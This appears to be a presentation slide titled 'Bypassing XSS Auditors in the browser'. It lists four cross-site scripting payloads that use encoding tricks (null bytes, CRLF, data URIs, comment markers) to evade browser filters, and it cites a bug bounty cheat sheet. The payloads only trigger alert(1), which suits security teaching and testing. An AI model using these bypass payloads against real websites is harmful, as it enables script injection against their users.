

# Bypassing XSS Auditors in the browser
<script src="data:,alert(1)%250A-->
<script>alert(1)</script
<script>alert(1)%0d%0a-->%09</script
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
Source: https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md